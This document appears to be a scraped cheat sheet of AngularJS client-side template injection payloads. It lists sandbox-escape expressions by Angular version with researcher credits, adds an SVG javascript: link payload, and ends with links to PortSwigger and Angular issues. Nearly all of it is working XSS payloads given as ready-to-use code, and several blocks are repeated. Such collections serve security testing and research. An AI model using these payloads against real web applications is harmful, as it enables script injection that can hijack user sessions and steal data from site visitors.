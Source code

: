 {{0[a='constructor'][a]('alert(1)')()}}
List of Sandbox bypasses
1.0.1 - 1.1.5

Mario Heiderich (Cure53)

{{constructor.constructor('alert(1)')()}}
1.2.0 - 1.2.1

Jan Horn (Google)

{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
1.2.2 - 1.2.5

Gareth Heyes (PortSwigger)

{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
1.2.6 - 1.2.18

Jan Horn (Google)

{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
1.2.19 - 1.2.23

Mathias Karlsson

{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
1.2.24 - 1.2.29

Gareth Heyes (PortSwigger)

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
1.3.0

Gábor Molnár (Google)

{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
1.3.1 - 1.3.2

Gareth Heyes (PortSwigger)

{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
1.3.3 - 1.3.18

Gareth Heyes (PortSwigger)

{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
1.3.19

Gareth Heyes (PortSwigger)

{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}
1.3.20

Gareth Heyes (PortSwigger)

{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
1.4.0 - 1.4.9

Gareth Heyes (PortSwigger)

{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
1.5.0 - 1.5.8

Ian Hickey

{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}} 
1.5.9 - 1.5.11

Jan Horn (Google)

{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
>=1.6.0


Mario Heiderich (Cure53)

{{constructor.constructor('alert(1)')()}}
Please visit the web academy AngularJS lab to experiment with XSS using AngularJS.





#### 1.3.2 and below 

`{{7*7}}`

```
'a'.constructor.fromCharCode=[].join;
'a'.constructor[0]='\u003ciframe onload=alert(/Backdoored/)\u003e';
```

```
{{
    'a'.constructor.prototype.charAt=[].join;
    $eval('x=""')+''
}}
```


```
{{
    'a'.constructor.prototype.charAt=[].join;
    $eval('x=alert(1)')+''
}}
```

`{{constructor.constructor('alert(1)')()}}`

```
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

```
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

```
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```
    
```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

#### 1.3.3 

As literal object: `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(Evaluated Object Literal)');}}`

As Array: `{{x = [''.constructor.prototype]; x[0].charAt=[].join; $eval('x=alert(Evaluated Array)');}}`

Versions 1.3.0 - 1.5.7:
```
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
```

Versions 1.2.20 - 1.2.29:
```
{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}
```

Version 1.2.19:
```
{{c=toString.constructor;p=c.prototype;p.toString=p.call;["a","alert(1)"].sort(c)}}
```

Versions 1.2.6 - 1.2.18:
```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

Versions 1.2.0 - 1.2.5:
```
{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}
```

SVG
```
<svg>
  <a xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="?">
    <circle r="400"></circle>
    <animate attributeName="xlink:href" begin="0" from="javascript:alert(1)" to="&" />
  </a>
</svg>
```

Angular 1.5.9
Jan Horn sandbox escape
```
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

Angular 1.6.0
```
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js"></script>
{{0[a='constructor'][a]('alert(1)')()}}
```


http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html
https://github.com/angular/angular.js/issues/14939
https://github.com/angular/angular.js/pull/11290
